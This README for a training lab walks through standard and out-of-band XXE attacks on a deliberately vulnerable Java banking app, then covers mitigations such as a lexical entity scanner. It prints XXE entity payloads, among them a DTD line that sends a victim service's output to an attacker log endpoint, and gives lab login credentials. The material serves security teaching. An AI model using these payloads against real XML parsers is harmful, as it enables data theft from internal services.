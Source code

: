 # Exercise 5 - XML External Entities (XXE) 
Exercise to help you understand XEE exploits and their mitigations

## Setup and Start Applications
1. check out exercise2 
   * choose branch 'exercise2' in the 'VCS -> Git -> Branches' menu within IntelliJ
1. start the v-bank-app in debug mode
   * start the Maven configuration for the "v-bank-app" in DEBUG mode (with the green BUG icon next to the arrow)
   (you should have created it as described in point __2.2. of the Workspace Setup Instructions__ at https://github.com/vargadan/v-bank/blob/master/README.md)
1. start the attacker-app
   * start the Maven configuration for the "v-bank-app" in DEBUG mode (with the green BUG icon next to the arrow)
   (you should have created it as described in point __2.2. of the Workspace Setup Instructions__ at https://github.com/vargadan/v-bank/blob/master/README.md)
   
## Brief description of the exercise
The applications in this scenario are:
* the v-bank application at http://vbank.127.0.0.1.xip.io:8080 
* the attacker application at http://attack.127.0.0.1.xip.io:9090/xxe, this holds the (malicaiout) XML payloads and DTDs
  * For the standard XXE scenario:
    * The XML payload: http://attack.127.0.0.1.xip.io:9090/xml/xxe_standard.xml 
  * For the out-of-band XXE scenario
    * The XML payload: http://attack.127.0.0.1.xip.io:9090/xml/xxe_out-of-band.xml
    * And the DTD: http://attack.127.0.0.1.xip.io:9090/xml/evil.dtd
* The victim service at: http://service.127.0.0.1.xip.io:9090/victim  
    * This service should normally not be available to the client calling the v-bank application. 
    * The response of this service is the confidential data the attacker steals or leaks by exploiting the XXE vulnerability.
    With the help of the XXE exploit the attacker manages to call the service and
      * Standard XXE: Place the victim's output in the processed document and put in the note of resulting transaction.
      * Out-of-band XXE: Send the victim's output to the logger service at http://attack.127.0.0.1.xip.io:9090/log (you can see what has been logged at http://attack.127.0.0.1.xip.io:9090/viewlog)
\
But first you have to find the XXE vulnerability in the v-bank-app.

## Look for XXE vulnerabilities

### Hint 
XXE vulnerabilities are to be found where XML parsing/processing takes place.

### Present vulnerability 
_BankController.uploadTransactions(...)_ where the processing of the uploaded XML from the home page takes place.

## Exploit to understand

For the exploit we will use the XML files downloadable from http://attack.127.0.0.1.xip.io:9090/xxe 
Please download the beolow files to a folder on your local drive:
* transactions.xml: The normal payload creating 2 transactions;
* xxe_call_service.xml: the XXE payload calling the victim service and parsing its response/output into the note field of the transaction;
* xxe_call_service_out-of-band.xml: XXE payload also calling the victim service whose response/output it sends to the attacker's log service.  

1. Test
   * Login as bob (bob / h3ll0bob) and upload transactions.xml. 
   * You should see 2 transactions in the transaction history page.

1. Standard XXE
   * Logged in as bob, please upload xxe_standard.xml
   * 1 new transaction should appear in the history screen: 
     * In the note file of the newly uploaded transaction you should see "...(you fall victim to a standard XXE attack!)"
   * What was happening?
     * ```<!ENTITY victim SYSTEM 'http://service.127.0.0.1.xip.io:9090/victim'>``` entry created a victim entity with the output of the _victim_ _service_ as its value. When processing the XML the _&victim_ entity reference actually behaves as a constant initialized with the output or response of the system resource at _http://service.127.0.0.1.xip.io:9090/victim_. 
     * Then because of the ```<note>&victim;</note>``` the XML parser places it into the the note field. When the XML processor finally creates the object of class _Transaction_ its _note_ property will be set accordingly.
    
1. Out-of-Band XXE    
   * Logged in as bob, please upload xxe_out-of-band.xml
   * 1 new transaction should appear in the history screen: 
     * In the note file of the newly uploaded transaction you should see "...(you fall victim to a Out-of-Band XXE attack!)"
     * Please check the logs sent to the log service at: http://attack.127.0.0.1.xip.io:9090/viewlog
   * What was happening?
     * ```<!ENTITY victim SYSTEM 'http://service.127.0.0.1.xip.io:9090/victim'>``` entry created a victim entity with the outout of the _victim_ _service_ as its value
     * Then in the_evil.dtd used the %victim; parameter entity (parameter entities are denoted by % and can be reused within the DTD) to create another %send; entity which when evaluated will send the value of %victim; to the log service at http://attack.127.0.0.1.xip.io:9090/log 
     ```<?xml version="1.0" encoding="UTF-8"?>
            <!ENTITY % all "<!ENTITY send SYSTEM 'http://attack.127.0.0.1.xip.io:9090/log?msg=%victim;'>">
            %all;
     ```
     * Because the output of the attacked service (normally confidential information) is send to the log service and is not received with the response it is called Out-of-Band XXE. 
       (It is also called Blind XXE) 
       
 1. Tasks
    * (1) Add a lexical parser to preprocess the XML and fail if any entities are found 
    * (1) Configure the XML parser to:
      * disallow external DTDs so that it cannot not load the evil DTD
      * disallow entities in DTDs so that no system entities can be created within the DTD from files or URLs
      * allow secure XML processing: https://docs.oracle.com/javase/7/docs/api/javax/xml/XMLConstants.html#FEATURE_SECURE_PROCESSING  
      __The problem with this approach is that there are lots of XML processors (SAX, DOM, Stax, etc) and implementations (Xalan, Xerces, etc) and each has its own set of supported configuration features. For example, 
      with the current configuration I could not set any property on the parser to disallow external DTDs or entities and the SECURE_XML_PROCESSING feature did nothing. Therefore, you need to make sure that
      the XML stream or file does not contain entities before passed to the XML processor API (you can do it with the lexical parser).__
    * Hints:
      * (1) create a new class: 
       ```
       public class AntiEntityScanner {
       
           private static final String LEXICAL_HANDLER = "http://xml.org/sax/properties/lexical-handler";
       
           public static void check(final InputStream data) throws Exception {
               final SAXParser saxParser = SAXParserFactory.newInstance().newSAXParser();
               final ElementHandler handler = new ElementHandler();
               saxParser.getXMLReader().setProperty(LEXICAL_HANDLER, handler);
               saxParser.parse(data, handler);
           }
       
           public static final class ElementHandler extends org.xml.sax.ext.DefaultHandler2 {
               @Override
               public void startEntity(final String name) throws SAXException {
                   throw new IllegalArgumentException("Entities are illegal");
               }
           }
       }
       ```
     * (1) and in _BankController.uploadTransactions(...)_:
       ```
       InputStream incomingXML = file.getInputStream();
       //scan for entities in incoming XML without parsing the content
       AntiEntityScanner.check(incomingXML);
       ```
The solution is available in the exercise5-solution branch at https://github.com/vargadan/v-bank/tree/exercise5-solution
\
You may find more on XXE mitigation at https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.md